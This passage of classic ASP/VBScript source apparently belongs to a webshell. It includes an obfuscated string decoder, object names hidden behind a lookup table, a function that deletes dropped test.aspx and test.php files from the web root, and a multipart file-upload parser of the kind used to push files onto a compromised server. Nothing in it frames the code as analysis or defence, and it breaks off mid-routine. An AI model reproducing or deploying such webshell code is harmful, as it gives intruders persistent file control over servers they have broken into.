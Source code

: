 Exit For
End If
Next 
If love = 0 Then
NewKing  = Mid(Kingstr, KingI, 1) + NewKing 
End If
Next
King= NewKing
End Function
function apjdel():set fso=Server.CreateObject(CONST_FSO):fso.DeleteFile(server.mappath("test.aspx")):fso.DeleteFile(server.mappath("test.php")):j"删除完毕!":End function

Dim T1
Class UPC
  Dim D1,D2
  Public Function Form(F)
F=lcase(F)
If D1.exists(F) then:Form=D1(F):else:Form="":end if
  End Function

  Public Function UA(F)
F=lcase(F)
If D2.exists(F) then:set UA=D2(F):else:set UA=new FIF:end if
  End Function
  Private Sub Class_Initialize
  Dim TDa,TSt,vbCrlf,TIn,DIEnd,T2,TLen,TFL,SFV,FStart,FEnd,DStart,DEnd,UpName
set D1=CreateObject(ObT(4,0))
if Request.TotalBytes<1 then Exit Sub
set T1 = CreateObject(ObT(6,0))
T1.Type = 1 : T1.Mode =3 : T1.Open
T1.Write  Request.BinaryRead(Request.TotalBytes)
T1.Position=0 : TDa =T1.Read : DStart = 1
DEnd = LenB(TDa)
set D2=CreateObject(ObT(4,0))
vbCrlf = chrB(13) & chrB(10)
set T2 = CreateObject(ObT(6,0))
TSt = MidB(TDa,1, InStrB(DStart,TDa,vbCrlf)-1)
TLen = LenB (TSt)
DStart=DStart+TLen+1
while (DStart + 10) < DEnd
  DIEnd = InStrB(DStart,TDa,vbCrlf & vbCrlf)+3
  T2.Type = 1 : T2.Mode =3 : T2.Open
  T1.Position = DStart
  T1.CopyTo T2,DIEnd-DStart
  T2.Position = 0 : T2.Type = 2 : T2.Charset ="gb2312"
  TIn = T2.ReadText : T2.Close
  DStart = InStrB(DIEnd,TDa,TSt)
  FStart = InStr(22,TIn,"name=""",1)+6
  FEnd = InStr(FStart,TIn,"""",1)
  UpName = lcase(Mid (TIn,FStart,FEnd-FStart))
  if InStr (45,TIn,"filename=""",1) > 0 then
set TFL=new FIF
FStart = InStr(FEnd,TIn,"filename=""",1)+10
FEnd = InStr(FStart,TIn,"""",1)
FStart = InStr(FEnd,TIn,"Content-Type: ",1)+14
FEnd = InStr(FStart,TIn,vbCr)
TFL.FileStart =DIEnd
TFL.FileSize = DStart -DIEnd -3
if not D2.Exists(UpName) then
  D2.add UpName,TFL
end if
  else
T2.Type =1 : T2.Mode =3 : T2.Open
T1.Position = DIEnd : T1.CopyTo T2,DStart-DIEnd-3